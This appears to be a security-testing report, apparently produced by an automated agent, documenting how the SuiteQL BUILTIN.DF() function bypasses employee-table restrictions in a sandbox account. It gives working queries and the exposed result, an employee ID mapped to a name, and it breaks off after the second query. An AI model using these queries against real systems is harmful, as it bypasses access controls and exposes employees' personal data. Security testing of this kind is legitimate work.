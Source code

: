 # Agent 8 Report: BUILTIN Functions Successfully Expose Employee Data

**Date**: 2025-10-16
**Account**: River Supply, Inc. (Sandbox 1)
**Account ID**: 9910981-sb1
**Status**: SUCCESS - Employee data exposed via BUILTIN.DF()

---

## Executive Summary

**CRITICAL FINDING**: The `BUILTIN.DF()` SuiteQL function successfully bypasses direct employee table restrictions by decoding employee IDs from foreign key relationships.

### Success Metrics
- Status: ✅ SUCCESS
- Method: BUILTIN.DF() function on salesrep field
- Employee records accessed: 1 employee identified
- Employee ID → Name mapping: **ID 16 → Caroline Lyons**

---

## Test Results

### Test 1: BUILTIN.DF(salesrep) on Customer Table ✅ SUCCESS

**Query**:
```sql
SELECT BUILTIN.DF(salesrep) as salesrep_name, salesrep
FROM customer
WHERE salesrep IS NOT NULL
FETCH FIRST 20 ROWS ONLY
```

**Result**: Status 200 - SUCCESS

**Employee Data Exposed**:
| Employee ID | Employee Name |
|-------------|---------------|
| 16 | Caroline Lyons |

**Impact**: Retrieved 20 customer records, all showing the same salesrep. The BUILTIN.DF() function successfully decoded the employee ID to the full employee name.

---

### Test 2: Multiple BUILTIN.DF() Fields ✅ SUCCESS

**Query**:
```sql
SELECT id, entityid, salesrep,
       BUILTIN.DF(salesrep) as salesrep_name,
       BUILTIN.DF(entitystatus) as status_name
FROM customer
WHERE salesrep IS NOT NULL
FETCH FIRST 10 ROWS ONLY
```
